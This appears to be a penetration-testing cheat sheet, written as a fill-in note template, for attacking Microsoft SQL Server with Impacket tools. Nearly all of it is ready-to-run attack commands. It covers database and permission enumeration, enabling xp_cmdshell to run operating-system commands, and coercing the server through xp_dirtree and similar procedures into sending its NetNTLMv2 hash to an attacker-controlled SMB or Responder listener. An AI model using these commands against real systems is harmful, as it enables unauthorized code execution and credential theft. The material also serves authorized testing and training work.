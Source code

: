 # MSSQL - <% tp.frontmatter.current_port %>
**Using some Impacket tools**

## Connecting
(If using kali try `impacket-mssqlclient`)
```bash
mssqlclient.py <user>@<% tp.frontmatter.target_ip %> -windows-auth
```

### Database enumeration
**After being connected**
```bash
select name from sys.databases 
```

```bash
EXEC sp_databases
```

```bash
SELECT * FROM fn_my_permissions(NULL, 'SERVER');
```

```bash
SELECT name FROM master.sys.databases
```

**Switch DBs**
```bash
use <db>
```

```bash
SELECT name FROM sysobjects WHERE xtype = 'U'
```

**Show all tables of DB**
```bash
SELECT * FROM <db_NAME>.INFORMATION_SCHEMA.TABLES WHERE TABLE_TYPE = 'BASE TABLE'
```

### Code execution
**You don't always have permissions, but good to try**

```bash
EXEC sp_configure 'show advanced options', '1'
```

```bash
RECONFIGURE
```

```bash
EXEC sp_configure 'xp_cmdshell', '1' 
```

```bash
RECONFIGURE
```

**Example of code execution (If the above commands work)**
```bash
xp_cmdshell "whoami"
```

### Capturing NETNTLMV2 Hash
#### Capture hash
On your machine (If using kali try `impacket-smbserver`)
```bash
sudo smbserver.py share ./ -smb2support
```

```bash
sudo responder -I tun0
```

#### Send the Hash
A couple different ways to send a hash (These are done within MSSQL)
```bash
xp_dirtree '\\<% tp.frontmatter.my_ip %>\pwn'
```

```bash
exec master.dbo.xp_dirtree '\\<% tp.frontmatter.my_ip %>\pwn'
```

```bash
EXEC master..xp_subdirs '\\<% tp.frontmatter.my_ip %>\pwn'
```

```bash
EXEC master..xp_fileexist '\\<% tp.frontmatter.my_ip %>\pwn'
```


